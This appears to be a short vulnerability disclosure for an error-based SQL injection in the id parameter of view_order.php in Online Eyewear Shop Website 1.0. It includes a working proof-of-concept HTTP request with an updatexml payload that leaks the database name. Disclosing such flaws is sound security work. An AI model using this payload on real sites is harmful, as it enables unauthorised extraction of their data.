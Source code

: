 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/orders/view_order.php

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/orders/view_order.php, and the attack parameter is id. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
GET /oews/orders/view_order.php?id=1%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=hja6qtrb9s45kr3hinceav416b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-01-01 at 21 25 01@2x](https://github.com/user-attachments/assets/260983d3-dcc9-4ef9-b342-489fca10c4f9)


## Code Analysis

![CleanShot 2025-01-01 at 21 26 02@2x](https://github.com/user-attachments/assets/f8121f08-59ec-46bd-8e5d-a72132145953)


